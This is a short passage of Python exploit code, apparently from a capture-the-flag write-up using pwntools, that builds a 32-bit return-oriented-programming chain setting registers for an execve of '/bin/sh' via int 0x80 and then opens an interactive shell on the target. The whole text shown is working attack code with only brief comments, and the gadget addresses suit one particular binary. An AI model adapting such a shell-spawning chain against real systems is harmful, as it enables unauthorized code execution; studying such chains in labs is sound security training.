 ```python
payload += p32(0x08064784)

# set ebx = /bin/sh pointer
# pop ebx; ret
payload += p32(0x080481c9) + p32(data_addr)

# set edx = 0 (NULL)
# pop edx; ret
payload += p32(0x0806ee6b) + p32(0)

# set ecx = 0 and perform syscall
# xor ecx, ecx; int 0x80
payload += p32(0x0806f231)

p.sendline(payload)
p.interactive()
```

